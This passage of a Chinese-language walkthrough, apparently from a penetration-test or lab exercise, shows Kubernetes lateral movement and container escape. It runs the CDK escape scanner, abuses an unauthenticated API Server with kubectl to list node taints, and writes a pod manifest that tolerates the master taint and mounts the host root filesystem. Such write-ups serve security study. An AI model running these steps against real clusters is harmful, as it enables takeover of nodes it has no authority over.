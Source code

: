 这个虽然是安装在 node1 里面，但是其它三台机器也是可以访问的(k8s的负载均衡)

<div align=center><img width="800" src="/img/image-20231015190429286.png" div align=center/></div></br>

直接使用工具拿 shell

<div align=center><img width="800" src="/img/image-20231015163437088.png" div align=center/></div></br>

<div align=center><img width="800" src="/img/image-20231015163634035.png" div align=center/></div></br>

先判断当前环境

<div align=center><img width="800" src="/img/image-20231015163852919.png" div align=center/></div></br>

判断出当前环境是 kubepods

上传cdk_linux_amd64到目标机器

自动扫描逃逸漏洞

```bash
./cdk_linux_amd64 evaluate
```

<div align=center><img width="1000" src="/img/image-20231015164259072.png" div align=center/></div></br>

<div align=center><img width="1000" src="/img/image-20231015164329196.png" div align=center/></div></br>

存在 API Server 未授权

<div align=center><img width="700" src="/img/image-20231015165254794.png" div align=center/></div></br>

> 吐槽一下k8s污点横向需要配合一些漏洞，而这些配合漏洞往往可以单独拿到权限

上传 Kubectl ，执行命令查看污点 node

```shell
./kubectl --server=https://10.96.0.1:443 --insecure-skip-tls-verify=true --username=a --password=a describe nodes  | grep Taints --username=a --password=a #密码随便输入
describe nodes  | grep Taints #执行的命令
```

<div align=center><img width="1000" src="/img/image-20231015165454813.png" div align=center/></div></br>

```yaml
cat > x.yaml << EOF
apiVersion: v1
kind: Pod
metadata:
  name: control-master-x
spec:
  tolerations:
  - key: "node-role.kubernetes.io/master"
    operator: "Exists"
    effect: "NoSchedule"
  containers:
  - name: control-master-x
    image: ubuntu:18.04
    command: ["/bin/sleep", "3650d"]
    volumeMounts:
    - name: master
      mountPath: /master
  volumes:
  - name: master
    hostPath:
      path: /
      type: Directory
EOF
```